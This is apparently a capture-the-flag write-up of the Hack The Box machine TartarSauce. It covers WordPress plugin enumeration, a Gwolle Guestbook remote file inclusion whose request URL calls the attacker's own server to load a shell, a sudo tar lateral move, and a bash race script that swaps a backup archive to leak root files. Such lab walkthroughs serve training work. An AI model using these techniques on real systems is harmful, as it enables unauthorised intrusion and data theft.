

TartarSauce
| OS | Linux |
| Difficulty | Medium |
| Topics | WordPress Plugin Enumeration Manual, Gwolle Guestbook 1.5.3, Backup Custom Script to read privilege files [NOT Privilege Escalation] |
📁 Folder Structure
content/— screenshots and inline references used in the write-upnmap/— raw nmap output filesexploit/— exploit scripts, binaries, payloads, and other tools used
Enumeration
Nmap
SYN Stealth Scan
Result:
TCP Full Scan:
Result:
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-enum:
|_ /robots.txt: Robots file
Whatweb:
whatweb http://10.10.10.88
http://10.10.10.88 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.88], Title[Landing Page]
Gobuster:
/webservices (Status: 301) [Size: 316] [--> http://10.10.10.88/webservices/]
/server-status (Status: 403) [Size: 299]
Additional enumeration of webservices/monstra-3.0.4/
gobuster dir -u http://10.10.10.88/webservices/monstra-3.0.4/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
Result:
/public (Status: 301) [Size: 337] [--> http://10.10.10.88/webservices/monstra-3.0.4/public/]
/admin (Status: 301) [Size: 336] [--> http://10.10.10.88/webservices/monstra-3.0.4/admin/]
/storage (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/storage/]
/plugins (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/plugins/]
/engine (Status: 301) [Size: 337] [--> http://10.10.10.88/webservices/monstra-3.0.4/engine/]
/libraries (Status: 301) [Size: 340] [--> http://10.10.10.88/webservices/monstra-3.0.4/libraries/]
/tmp (Status: 301) [Size: 334] [--> http://10.10.10.88/webservices/monstra-3.0.4/tmp/]
/boot (Status: 301) [Size: 335] [--> http://10.10.10.88/webservices/monstra-3.0.4/boot/]
/backups (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/backups/]
Wfuzz: Enumerating further /webservices
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.88/webservices/FUZZ
Accessing http://10.10.10.88/webservices/wp/
Found a Wordpress site:

Trying to access one of the entries it redirects to http://tartarsauce.htb/webservices/wp/index.php/2018/02/09/hello-world/
This indicates that service is using virtual hosting and we need to add the IP and hostname to the /etc/hosts

WPScan:
Result:
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.25
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: http://tartarsauce.htb/webservices/wp/ [10.10.10.88]
[+] Started: Tue Mar 4 23:25:23 2025
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://tartarsauce.htb/webservices/wp/xmlrpc.php
| Found By: Link Tag (Passive Detection)
| Confidence: 100%
| Confirmed By: Direct Access (Aggressive Detection), 100% confidence
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://tartarsauce.htb/webservices/wp/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://tartarsauce.htb/webservices/wp/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
| Found By: Rss Generator (Passive Detection)
| - http://tartarsauce.htb/webservices/wp/index.php/feed/, <generator>https://wordpress.org/?v=4.9.4</generator>
| - http://tartarsauce.htb/webservices/wp/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9.4</generator>
[+] WordPress theme in use: voce
| Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/
| Latest Version: 1.1.0 (up to date)
| Last Updated: 2017-09-01T00:00:00.000Z
| Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/readme.txt
| Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4
| Style Name: voce
| Style URI: http://limbenjamin.com/pages/voce-wp.html
| Description: voce is a minimal theme, suitable for text heavy articles. The front page features a list of recent ...
| Author: Benjamin Lim
| Author URI: https://limbenjamin.com
|
| Found By: Css Style In Homepage (Passive Detection)
|
| Version: 1.1.0 (80% confidence)
| Found By: Style (Passive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4, Match: 'Version: 1.1.0'
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating All Themes (via Passive and Aggressive Methods)
^[ Checking Known Locations - Time: 00:13:45 <============================================================ > (24490 / 29115) 84.11% ETA: 00:02:^[ Checking Known Locations - Time: 00:13:47 <============================================================ > (24550 / 29115) 84.32% ETA: 00:02: Checking Known Locations - Time: 00:16:20 <=======================================================================> (29115 / 29115) 100.00% Time: 00:16:20
[+] Checking Theme Versions (via Passive and Aggressive Methods)
[i] Theme(s) Identified:
[+] twentyfifteen
| Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/
| Last Updated: 2024-11-12T00:00:00.000Z
| Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/readme.txt
| [!] The version is out of date, the latest version is 3.9
| Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/style.css
| Style Name: Twenty Fifteen
| Style URI: https://wordpress.org/themes/twentyfifteen/
| Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Known Locations (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/, status: 500
|
| Version: 1.9 (80% confidence)
| Found By: Style (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/style.css, Match: 'Version: 1.9'
[+] twentyseventeen
| Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/
| Last Updated: 2024-11-12T00:00:00.000Z
| Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/README.txt
| [!] The version is out of date, the latest version is 3.8
| Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/style.css
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Known Locations (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/, status: 500
|
| Version: 1.4 (80% confidence)
| Found By: Style (Passive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 1.4'
[+] twentysixteen
| Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/
| Last Updated: 2024-11-13T00:00:00.000Z
| Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/readme.txt
| [!] The version is out of date, the latest version is 3.4
| Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/style.css
| Style Name: Twenty Sixteen
| Style URI: https://wordpress.org/themes/twentysixteen/
| Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Known Locations (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/, status: 500
|
| Version: 1.4 (80% confidence)
| Found By: Style (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.4'
[+] voce
| Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/
| Latest Version: 1.1.0 (up to date)
| Last Updated: 2017-09-01T00:00:00.000Z
| Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/readme.txt
| Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css
| Style Name: voce
| Style URI: http://limbenjamin.com/pages/voce-wp.html
| Description: voce is a minimal theme, suitable for text heavy articles. The front page features a list of recent ...
| Author: Benjamin Lim
| Author URI: https://limbenjamin.com
|
| Found By: Urls In Homepage (Passive Detection)
| Confirmed By: Known Locations (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/, status: 500
|
| Version: 1.1.0 (80% confidence)
| Found By: Style (Aggressive Detection)
| - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css, Match: 'Version: 1.1.0'
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:04 <============================================================================> (137 / 137) 100.00% Time: 00:00:04
[i] No Config Backups Found.
[+] Enumerating DB Exports (via Passive and Aggressive Methods)
Checking DB Exports - Time: 00:00:02 <==================================================================================> (75 / 75) 100.00% Time: 00:00:02
[i] No DB Exports Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Tue Mar 4 23:42:01 2025
[+] Requests Done: 29351
[+] Cached Requests: 40
[+] Data Sent: 8.483 MB
[+] Data Received: 4.348 MB
[+] Memory used: 364.23 MB
[+] Elapsed time: 00:16:38
However no evidence of Plugins installed was found.
Enumerating futher with Wfuzz:
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://tartarsauce.htb/webservices/wp/FUZZ
Result:
000000468: 200 0 L 0 W 0 Ch "wp-content/plugins/akismet/"
000004504: 200 0 L 0 W 0 Ch "wp-content/plugins/gwolle-gb/"
000004592: 500 0 L 0 W 0 Ch "wp-content/plugins/hello.php"
000004593: 500 0 L 0 W 0 Ch "wp-content/plugins/hello.php/"
Found 3 Plugins installed.
Initial Access
After discovering the Wordpress Site, we identified a potential vulnerability associated with the plugin Gwolle Guestbook 1.5.3
Checking in Searchsploit: Cheching the explotis we can see one result for the plugin Gwolle GB

Inspecting the exploit content we will see the following insight:
HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.
Based on this information, we will be abusing the resource ajaxresponse.php?abspath= to pass our remote URL containing the malicious code.
First, let’s test the vulnerability with a simple request towards our malicious server.
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
Result:

We can see that by default the server is requesting a file identified as wp-load.php which currently does not exist on the server.
With this in mind, need to create a payload and save it into a file with name wp-load.php
Payload:
Start the http server in our kali and try to request our malicious payload:
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
As a result we will get the shell:

We got access as user www-data
Lateral Movement:
Checking the current privileges assigned to the user www-data we will see that we can execute as user onuma the command tar

This can allows to spawn a shell in the context of the user onuma.
Checking the GTFObins we can see the command that help us to achieve this.
Note: for this command we need to specity the user under which the command will be executed, in this case the user onuma.

Success, we have a shell as user onuma
Privilege Escalation
Using the following scrip we can inspect for any schedule tasks being executed on the machine:
#!/bin/bash
old_process=$(ps -eo command)
while true
do
new_process=$(ps -eo command)
diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
old_process=$new_process
done
After waiting some minutes we will see the following output:
> /bin/bash /usr/sbin/backuperer
< /lib/systemd/systemd-udevd
> /bin/bash /usr/sbin/backuperer
< /bin/bash /usr/sbin/backuperer
> /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
> /bin/sleep 30
> /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
> gzip
< gzip
> [gzip] <defunct>
< /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
< /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
We can see the execution of the script identified as /bin/bash /usr/sbin/backuperer
Checking the content we can see the following instructions:
!/bin/bash
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------
# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check
# formatting
printbdr()
{
for n in $(seq 72);
do /usr/bin/printf $"-";
done
}
bdr=$(printbdr)
# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg
# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check
# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30
# Test the backup integrity
integrity_chk()
{
/usr/bin/diff -r $basedir $check$basedir
}
/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
# Report errors so the dev can investigate the issue.
/usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran : $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
integrity_chk >> $errormsg
exit 2
else
# Clean up and save archive to the bkpdir.
/bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
/bin/rm -rf $check .*
exit 0
fi
Inspecting the script we can see that it creates a compress file for the content of the /var/www/html and saves it temporary on the folder /var/tmp as hidden (.)
After that, there is a sleep period of 30seconds and executes a diff evaluation from the content that is compressed with the content that is currently on the directory /var/www/html, in case there is a difference, the scripts reports the difference file to the log /var/backups/onuma_backup_error.txt
To verify all the previous, we can first monitor manuall with watch the content of the folder /var/backups/
After some time we will a hidden file being created:

Since the content is being compressed and later being compared after the descompress with the original one, we can try to hijack the compressed file with a version generated from our kali that contains one of the file that points to another file using a symbolic link.
Since the difference will reported, we will be able to see the content of the file that is being referenced.
From our kali machine:
Lets try to create the symbolic link:

Compress the content of /var/www/html:

Transfer the tar file to the target machine using a temporary http server on kali:

Move the file to the path /var/tmp with name compress.tar
After that, create the following script in the same path /var/tmp
#!/bin/bash
A=`ls -las | wc -l`
while (( $A <= 13 )); do
#Wait one second to not overload the system
sleep 1
#Executes the operation again
A=`ls -las | wc -l`
done
if (( $A > 13 )); then
#Execute the search for the file to grab the name and store it in B variable
B=`find . -user onuma 2>/dev/null | grep -Ev "test|compress" | cut -d"/" -f2`
echo -e "[!] File found: $B"
#Renames the original file with a backup version
mv $B $B.bk
#Replace our malicious tar file with the name of the original file
mv compress.tar $B
fi
At the end, we should have only 2 files: the compress.tar and the script itself.
Execute until you see the following results:
Here we can see that it found the file:

Here we can see the replacement of the file:

And at the end we can see the flag for root: